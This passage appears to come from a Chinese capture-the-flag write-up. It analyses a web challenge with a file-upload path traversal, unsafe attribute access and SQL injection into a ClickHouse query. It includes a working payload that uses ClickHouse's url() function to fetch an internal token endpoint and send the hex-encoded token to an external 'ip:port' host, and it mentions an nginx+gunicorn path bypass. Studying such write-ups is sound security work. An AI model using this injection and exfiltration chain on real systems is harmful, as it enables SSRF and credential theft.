 > 简单分析下代码，存在一个 Upload 类，因为直接通过`os.path.join`拼接文件名，所以这里是存在文件上传穿越问题的，前提是需要获取到`token`，并且需要`ip`是`172`的也就是应该是用本机的`IP`发起请求，其次`render.__getattr__(data.name)()`中，通过`__getattr__`直接获取`render`其它属性。

1、关于`Clickhouse`数据库进行`SSRF`，在`Clickhouse`中存在`URL`参数能够发起`http`请求：

1.  **URL**:**HTTP**或**HTTPS**服务器地址，可以接受 GET 或 POST 请求（相应地用于 SELECT 或 INSERT 查询
    
2.  **format**：数据的格式
    
3.  **structure**：如`UserID UInt64，Name String`格式的表结构
    
4.  **headers**：`key1=value1，key2=value2`格式的标头。您可以设置 HTTP 调用的标头
    

2、如`select * from url('http://ip:port/','TabSeparatedRaw','x String'))`

表示通过`URL`函数获取数据，`TabSeparatedRaw`表示`返回的数据采用制表符分隔的原始数据格式`，`x String`表示`外部查询返回的数据类型为字符串`。

3、因为`sql = 'SELECT * FROM web.users WHERE id = ' + data.id`没进行任何过滤进行拼接的，可以通过请求`/api/token`的形式来获取`Token`,`||`是连接运算符。

```bash
SELECT * FROM url('http://ip:port/?a='||hex((select * FROM url('http://backend:8001/api/token', 'TabSeparatedRaw', 'x String'))), 'TabSeparatedRaw', 'x String');
```

4、如何访问`query`路由呢，这里是`nginx+gunicorn`路径绕过。

[![](assets/1706957701-119ba6bd6591508949bd5a1c779de930.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202171449-83eb3b7a-c1ab-1.png)
